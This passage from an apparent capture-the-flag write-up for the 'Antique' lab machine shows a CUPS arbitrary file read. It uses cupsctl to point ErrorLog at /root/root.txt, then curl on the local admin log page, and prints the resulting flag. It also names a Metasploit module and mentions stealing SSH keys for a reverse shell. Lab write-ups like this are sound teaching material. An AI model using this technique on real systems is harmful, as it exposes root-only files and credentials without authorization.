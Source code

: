 ```sh
lp@antique:~$ groups
```

```
lp lpadmin
```

We are!

### Preparation

The Metasploit module `post/multi/escalate/cups_root_file_read` can be used to
exploit this vulnerability, but it's easy to do manually.

Usually I'd exploit an arbitrary file reading vulnerability to get SSH keys in
order to get a reverse shell, but unfortunately SSH isn't installed on this
system. Therefore, I'll simply retrieve the root flag, which is always located
at `/root/root.txt` (which is not a privilege escalation per-say, so you could
argue that it's miscategorized and you'd be right).

### Exploitation

Let's use `cupsctl` to set the `ErrorLog` path to the root flag.

```sh
lp@antique:~$ cupsctl ErrorLog="/root/root.txt"
```

Then, let's fetch the content of the 'Error Log' page so that the `cupsd` daemon
echoes the content of `/root/root.txt`.

```sh
lp@antique:~$ curl -s "http://127.0.0.1:631/admin/log/error_log"
```

```
56eee459902284df2c4da87a7eeb3623
```

# Afterwords
